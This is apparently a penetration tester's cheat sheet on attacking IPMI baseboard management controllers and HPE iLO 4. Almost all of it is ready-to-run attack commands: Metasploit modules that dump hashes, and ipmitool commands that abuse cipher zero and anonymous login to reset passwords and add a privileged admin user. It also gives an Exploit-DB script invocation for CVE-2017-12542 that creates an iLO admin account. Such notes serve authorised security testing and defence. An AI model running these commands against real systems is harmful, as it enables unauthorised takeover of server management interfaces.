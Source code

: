 # IPMI

* [https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/](https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/)
* [https://habr.com/ru/company/selectel/blog/439834/](https://habr.com/ru/company/selectel/blog/439834/)




## Discovery

```
msf > use auxiliary/scanner/ipmi/ipmi_version
```




## Dump Hashes

**CVE-2013-4786**

```
msf > use scanner/ipmi/ipmi_dumphashes
```




## Cipher Zero

**CVE-2013-4805**

Discover with MSF:

```
msf > use scanner/ipmi/ipmi_cipher_zero
```

Guess existing admin username. If `ADMIN` username is correct, the `list` command will succeed (password doesn't matter):

```
$ sudo apt install ipmitool
$ ipmitool -I lanplus -C 0 -H 127.0.0.1 -U ADMIN -P DummyPassw0rd user list
```

Add new admin user (only existing admin username is needed):

```
$ ipmitool -I lanplus -C 0 -H 127.0.0.1 -U ADMIN -P DummyPassw0rd user set name <ID> snovvcrash
$ ipmitool -I lanplus -C 0 -H 127.0.0.1 -U ADMIN -P DummyPassw0rd user set password <ID> 'Passw0rd!'
$ ipmitool -I lanplus -C 0 -H 127.0.0.1 -U ADMIN -P DummyPassw0rd user priv <ID> 4
$ ipmitool -I lanplus -C 0 -H 127.0.0.1 -U ADMIN -P DummyPassw0rd user enable <ID>
```




## Anonymous Authentication

Can be discovered with MSF `ipmi_dumphashes` but also with ipmitool:

```
$ ipmitool -I lanplus -H 127.0.0.1 -U '' -P '' user list
```

Change password of a named user account:

```
$ ipmitool -I lanplus -H 127.0.0.1 -U '' -P '' user set password <ID> 'Passw0rd!'
```




## HPE iLO 4

* [https://codeby.net/threads/poluchaem-dostup-k-hp-ilo.63224/](https://codeby.net/threads/poluchaem-dostup-k-hp-ilo.63224/)
* [https://github.com/airbus-seclab/ilo4_toolbox](https://github.com/airbus-seclab/ilo4_toolbox)



### Add Admin User

**CVE-2017-12542**

Exploit with Python:

* [https://www.exploit-db.com/exploits/44005](https://www.exploit-db.com/exploits/44005)

```
$ ./44005.py -t -e -u snovvcrash -p 'Passw0rd!' 127.0.0.1
```

Exploit with MSF:

```
msf > use auxiliary/admin/hp/hp_ilo_create_admin_account
```
